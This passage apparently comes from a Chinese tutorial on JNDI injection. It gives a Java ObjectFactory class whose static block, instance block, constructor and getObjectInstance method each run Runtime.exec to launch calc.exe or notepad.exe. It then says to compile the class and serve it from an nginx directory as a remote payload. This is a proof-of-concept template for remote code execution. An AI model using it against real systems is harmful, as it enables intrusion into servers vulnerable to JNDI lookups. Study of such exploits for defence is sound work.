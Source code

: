 ```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

/**
 * Copyright © 2022灼华. All rights reserved.
 *
 * @author create by hyq
 * @version 1.0
 * @date 2022/5/7
 * @description:
 */
public class AttackService implements ObjectFactory {
    {
        System.out.println("代码块：攻击服务器！");
        Runtime.getRuntime().exec("calc.exe");
    }

    static {
        System.out.println("静态代码块：攻击服务器！");
        try {
            Runtime.getRuntime().exec("notepad.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public AttackService() throws IOException {
        System.out.println("构造函数：攻击服务器！");
        Runtime.getRuntime().exec("calc.exe");
    }


    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("getObjectInstance：攻击服务器！");
        Runtime.getRuntime().exec("calc.exe");
        return null;
    }
}
```

### ngin搭建

将上述文件AttackService.java编译程AttackService.class 放于nginx htm目录下

![image-20220507232159834](http://hyqup-blog-upyun.test.upcdn.net/img/image-20220507232159834.png)
